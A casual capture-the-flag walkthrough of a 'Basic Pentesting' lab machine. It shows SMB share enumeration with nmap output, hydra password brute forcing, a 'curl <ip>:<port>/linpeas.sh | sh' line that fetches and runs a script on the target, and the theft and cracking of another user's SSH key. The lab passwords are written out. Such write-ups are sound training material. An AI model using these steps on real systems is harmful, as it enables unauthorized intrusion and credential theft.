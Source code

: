 # Basic Pentesting

- In these set of tasks you'll learn the following:

    1. brute forcing 
    2. hash cracking 
    3. service enumeration
    4. Linux Enumeration
    

```
export IP=10.10.27.13
```

- I deployed the machine and then and then i wielded my magic wand like grand wizard.(did nmap scan...LOL!). Man all the servers running on the ports are foreign to me. Like i have to go research every single one of them.

- Lots of services run on the machine but the one that locked eyes with me is the smb shares running on the machine. Lemme just connect and see how it goes. This is the first time I am dealing with smb shares.
Looking around the interwebz for something to exploit on the smb share i found this wonderful command 
```
nmap -sV --script=smb-enum-shares -p445 $IP

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                               
Service Info: Host: BASIC2

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.154.135\Anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.154.135\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba Server 4.3.11-Ubuntu)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

```

- I did the directory scans and found some directory `/development` with some coversations in it. It gives some clues about insecure passwords or something like that.
So now its only left with what i'm going to do. Something tells me i have to do some password bruteforce or something close to that.
I connected to the smb share on the machine and then looked around, i found some other message meant for all the users of the shares. I got the message and got the username of the users on the server.

- I am having touble using hydra, I dont even know how it works in the first place.
i found the password for one of the users using hydra bruteforcing tool and the password is `armando`


- I sshed into the system, spun a simple `python2 -m SimpleHTTPServer 9999` in the directory i have `linpeas.sh` at. Went into the remote server and executed `curl <my-ip-addr>:<port>/linpeas.sh | sh`
This shit run smoothly and run linpeas on the server. Man, i have the id_rsa of the other user too. Bingo lets go and escalate this MF!. but first lemme go google how to copy text in a tmux session.

- okay the id_rsa file has a passpharase or something creepy prevent me from using it hahaha :).
JohnTheRipper to the rescue. LOL! 

-  I was having troubles using johntheripper on my laptop so i installed kali on my bros laptop and here i am :).

- The password is `beeswax`. Kali is good man. LOL!
